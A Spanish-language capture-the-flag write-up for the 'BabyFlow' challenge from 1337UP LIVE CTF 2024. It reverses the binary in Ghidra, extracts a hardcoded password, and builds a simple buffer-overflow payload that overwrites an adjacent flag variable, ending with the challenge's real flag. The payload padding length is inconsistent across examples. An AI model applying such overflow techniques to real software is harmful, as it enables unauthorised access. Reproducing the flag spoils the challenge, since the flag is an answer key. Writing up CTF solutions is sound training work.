 ```yaml
---
title: BabyFlow - 1337UP LIVE CTF2024
author: Kesero
description: Reto de Pwn/Reversing basado en cambiar el valor de una variable en ejecución mediante un BufferOverflow.
date: 2024-11-16 20:57:00 +0800
categories: [Writeups Competiciones Internacionales, Pwn]
tags: [Pwn, Pwn - Buffer Overflow, Dificultad - Fácil, Writeups]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow/BabyFlow.jpg
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `CryptoCat`

Dificultad: <font color=green>Fácil</font>

## Enunciado

"Does this login application even work?!

## Archivos

Este reto nos da los siguientes archivos.

- `babyflow` : Contiene el ejecutable a vulnerar.
- `nc babyflow.ctf.intigriti.io 1331` : Conexión por netcat al servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow).

## Analizando el código

En este reto, tenemos un ejecutable el cual se corresponde con un `ELF` (Executable and Linkable Format) de 64 bits LSB.

    ┌──(kesero㉿kali)-[~]
    └─$ file babyflow

    babyflow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=55a6fe0ff25ff287549a03eb79dd00df541ece7f, for GNU/Linux 3.2.0, not stripped

Para poder ejecutarlo, simplemente le otorgamos permisos de ejecución y observamos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow

    Enter password: password
    Inorrect Password!

## Solución

En este reto, tenemos que encontrar una contraseña para poder continuar con la ejecución del programa. Lo primero que deberemos de hacer será lanzar un `strings` al binario para que nos arroje las cadenas de texto contenidas en dicho ejecutable. En este caso no encontramos nada.

Lo siguiente a probar será la herramienta de `Ghidra` con la cual podremos analizar el código de manera estática para observar el funcionamiento y el comportamiento del programa.

Para ello inicializamos `Ghidra`, creamos un proyecto, importamos el ejecutable y por último, le damos a analizar, para que el programa nos arroje el código en ensamblador analizado.

Una vez ya tenemos el entorno creado, tenemos que irnos a la sección de funciones e ir analizando las mismas en busca de cualquier información. En este caso, solo tenemos una función `main`.
Tras cambiar el nombre de algunas variables en la función `main`, podemos observar su comportamiento de forma más clara y a su vez, podemos ver que la contraseña esta hardcodeada en texto claro.

![codigo_ghidra](https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2024/Pwn/1337UpCTF2024/BabyFlow/function.png)

Como podemos ver, la contraseña a introducir para continuar con la ejecución del programa es `SuPeRsEcUrEPaSsWoRd123`, por lo que ejecutando nuevamente el binario con esta contraseña obtenemos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow
    Enter password: SuPeRsEcUrEPaSsWoRd123
    Correct Password!
    Are you sure you are admin? o.O

Para poder llegar a la ejecución del `print` con la flag, tenemos que introducir la contraseña primero y posteriormente entrar dentro del `if`, el cual tiene asociado una variable `local_c`. Si `local_c` es igual a `1`, entonces se ejecutará el contenido.

Por tanto, simplemente con cambiar el valor de `local_c` a `1`, una vez hayamos introducido la contraseña correcta, ya podremos acceder a la ejecución del `print` y obtener la flag, ¿cierto?

Solo hay un pequeño problema y es que en el código del ejecutable no se cambia el valor de `local_c`, por lo que el valor de dicha variable permanece igual en su ejecución y su contenido siempre es `0`.

Llegados a este punto, tenemos que cambiar el valor de dicha variable de manera dinámica, es decir, una vez el programa está en ejecucción. Pero realmente, ¿cómo hacemos esto?

Para conseguir cambiar el valor de la variable `local_c`, tenemos que usar técnicas como **explotación de memoria** o **manipulación de variables en el binario**. 

Vamos a comenzar a realizar un sencillo `Buffer Overflow` ya que podemos observar que la función `fgets` permite leer hasta 50 caracteres (`0x32` en hexadecimal). Sin embargo, el buffer `input` tiene 44 bytes. Esto deja una brecha de 6 bytes a aprovechar para sobreescribir `local_c`. Por lo tanto, tendremos que estructurar un input de manera que la parte adicional después del string correcto, sobreescriba `local_c` en memoria.

Es muy importante aclarar que la variable `local_c` está declarada en memoria inmediatamente después del buffer input. Esto significa que cualquier contenido adicional que sobrepase los 44 bytes del buffer de entrada puede escribir directamente sobre la variable `local_c`.

Por ejemplo un buen input sería el siguiente:

```plaintext
SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
```

### NOTA

Para ir probando inputs, lo recomendable es utilizar la consola interactiva de `python` e ir calculando la cantidad necesaria para desbordar el buffer y cambiar el contenido de la variable `local_c`.

```py
python -c 'print("SuPeRsEcUrEPaSsWoRd123" + "A" * 29 + "\x01")' | ./babyflow
```

En este caso:
- `SuPeRsEcUrEPaSsWoRd123` satisface la comparación de contraseña.
- `AAAAAAAAAAAAAAAAAAAA\x01` desbordará el buffer y sobrescribe `local_c` con el valor `0x01`, que se corresponde con el valor `1`.

Al ejecutar el binario, obtenemos lo siguiente.

    ┌──(kesero㉿kali)-[~]
    └─$ ./babyflow

    Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
    Correct Password!
    INTIGRITI{the_flag_is_different_on_remote}

Listo! Una vez tenemos la flag en local, simplemente tenemos que obtenerla de manera remota. Para esto, como este reto requiere de un payload muy sencillo, no es necesario realizar un script para automatizar el proceso, únicamente con introducir dicha cadena en el servidor, ya obtenemos la flag.

    ┌──(kesero㉿kali)-[~]
    └─$ nc babyflow.ctf.intigriti.io 1331a

    Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAA\x01
    Correct Password!
    INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}

## Flag

`INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}`